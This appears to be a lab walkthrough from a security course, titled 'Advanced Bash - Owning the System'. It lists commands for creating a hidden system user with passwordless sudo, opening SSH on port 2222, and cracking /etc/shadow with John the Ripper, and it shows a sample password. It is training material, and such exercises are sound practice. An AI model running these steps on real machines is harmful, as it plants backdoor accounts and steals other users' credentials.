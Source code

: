 # Advanced Bash - Owning the System

Step 1: Shadow People
- 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
  - sudo useradd --system --no-create-home sysd

[](/Linux/Images/AB-1-create-user.png)

[](Linux/Images/AB-1-create-user.png)

- 2. Give your secret user a password:
  - Sudo passwd sysd



- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd




- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd


- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo


- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd










- Step 2: Smooth Sailing
  - 1. Edit the sshd_config file:
    - sudo nano /etc/ssh/sshd_config




- Step 3: Testing Your Configuration Update
  - 1. Restart the SSH service:
    - systemctl restart ssh

 - 2. Exit the root account
    - exit   (see bottom of the screenshot to see “exit”)




  - 3. SSH to the target machine using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 2222




  - 4. Use sudo to switch to the root user:
    - sudo su root




- Step 4: Crack All the Passwords
  - 1. SSH back to the system using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 22


 - 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
    - sudo su root
    - john /etc/shadow
